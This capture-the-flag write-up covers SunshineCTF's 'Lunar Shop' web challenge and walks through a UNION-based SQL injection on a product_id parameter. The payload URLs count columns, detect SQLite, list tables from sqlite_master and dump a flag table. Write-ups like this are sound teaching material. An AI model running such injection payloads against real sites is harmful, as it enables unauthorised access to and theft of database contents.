



# Lunar Shop

We have amazing new products for our gaming service! Unfortunately we don't sell our unreleased **flag** product yet !

https://meteor.sunshinectf.games

# Recon and Attempt

When we view products, we notice that it is using a sql query to retrieve the product information.

> https://meteor.sunshinectf.games/product?product_id=1

Testing `'--` shows us that a simple comment injection is not going to work.

Now we want to know how many columns there are. To do that, we shall use a UNION attack. After some trial and error, we find that there is 4 columns.

> https://meteor.sunshinectf.games/product?product_id=1+UNION+select+NULL,+NULL,+NULL,+NULL

More specifically the first column is a number column and the rest are string columns.

Before we inject any code, we want to make sure we know which databse the SQL is running on. There are several tests for each one. Note that we are using `product_id=-1` to avoid any clashing of values.

> https://meteor.sunshinectf.games/product?product_id=-1+UNION+select+NULL,+(sqlite_version()),+NULL,+NULL

The database is using sqlite.

Now we want to know what other tables are there in the database, so we modify our UNION attack to display the tables.

> https://meteor.sunshinectf.games/product?product_id=-1+UNION+select+NULL,+name,+NULL,+NULL+FROM+sqlite_master+WHERE+type%3D'table'

Note that because it is using sqlite, we are using sqlite_master to find the table name. Whereas normally, we would be using table_schema or information_schema.

Great, we see that there is a flag table, so all we need to do is to display the flag table.

> https://meteor.sunshinectf.games/product?product_id=-1+UNION+select+NULL,+flag,+NULL,+NULL+FROM+flag

And we get the flag!

sun{baby_SQL_injection_this_is_known_as_error_based_SQL_injection_8767289082762892}
